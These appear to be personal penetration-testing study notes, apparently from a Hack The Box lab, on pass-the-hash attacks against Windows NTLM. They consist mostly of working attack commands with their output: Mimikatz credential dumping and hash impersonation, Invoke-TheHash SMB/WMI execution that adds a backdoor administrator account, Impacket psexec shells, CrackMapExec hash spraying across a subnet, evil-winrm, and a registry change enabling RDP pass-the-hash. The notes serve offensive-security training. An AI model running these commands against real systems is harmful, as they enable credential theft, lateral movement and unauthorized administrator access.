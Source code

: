 #windows/auth/pass-the-hash
#linux/auth/pass-the-hash
# Windows NTLM
Legacy SSO mechanism. We can use NTLM hash for PtH.

https://github.com/gentilkiwi/mimikatz

# PtH with #Mimikatz 
```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
* /user - The user name we want to impersonate.
* /rc4 or /NTLM - NTLM hash of the user's password.
* /domain - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
* /run - The program we want to run with the user's context (if not specified, it will launch cmd.exe).
#### Extract hashes from an admin account of other users
```powershell
.\mimikatz.exe

privilege::debug
sekurlsa::logonpasswords
```
# PtH with Invoke-TheHash
https://github.com/Kevin-Robertson/Invoke-TheHash

## #SMB
```powershell
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

VERBOSE: [+] inlanefreight.htb\julio successfully authenticated on 172.16.1.10
VERBOSE: inlanefreight.htb\julio has Service Control Manager write privilege on 172.16.1.10
VERBOSE: Service EGDKNNLQVOLFHRQTQMAU created on 172.16.1.10
VERBOSE: [*] Trying to execute command on 172.16.1.10
[+] Command executed with service EGDKNNLQVOLFHRQTQMAU on 172.16.1.10
VERBOSE: Service EGDKNNLQVOLFHRQTQMAU deleted on 172.16.1.10
```
## WMI
```powershell
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e <base64 payload>"

[+] Command executed with process id 520 on DC01
```

# PtH with #Impacket
```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453

[*] Requesting shares on 10.129.201.126.....
[*] Found writable share ADMIN$
[*] Uploading file SLUBMRXK.exe
[*] Opening SVCManager on 10.129.201.126.....
[*] Creating service AdzX on 10.129.201.126.....
[*] Starting service AdzX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19044.1415]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
Another Impacket tools:
* impacket-wmiexec
* impacket-atexec
* impacket-smbexec

# PtH with #CrackMapExec
cme is a tool for password spraying on AD.

```bash
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

SMB         172.16.1.10   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:.) (signing:True) (SMBv1:False)
SMB         172.16.1.10   445    DC01             [-] .\Administrator:30B3783CE2ABF1AF70F77D0660CF3453 STATUS_LOGON_FAILURE 
SMB         172.16.1.5    445    MS01             [*] Windows 10.0 Build 19041 x64 (name:MS01) (domain:.) (signing:False) (SMBv1:False)
SMB         172.16.1.5    445    MS01             [+] .\Administrator 30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
```

If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add --local-auth to our command

 If we see Pwn3d!, it means that the user is a local administrator on the target computer. We can use the option -x to execute commands.
### Command execution
```bash
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami

SMB         10.129.201.126  445    MS01            [*] Windows 10 Enterprise 10240 x64 (name:MS01) (domain:.) (signing:False) (SMBv1:True)
SMB         10.129.201.126  445    MS01            [+] .\Administrator 30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
SMB         10.129.201.126  445    MS01            [+] Executed command 
SMB         10.129.201.126  445    MS01            MS01\administrator
```

# PtH with #evil-winrm
```bash
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
Note: When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

# PtH with [[RDP]]
Enable Restricted Admin Mode to Allow PtH:
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
Connect:
```bash
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

# UAC Limits Pass the Hash for Local Accounts
When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

Note: There is one exception, if the registry key FilterAdministratorToken (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account.
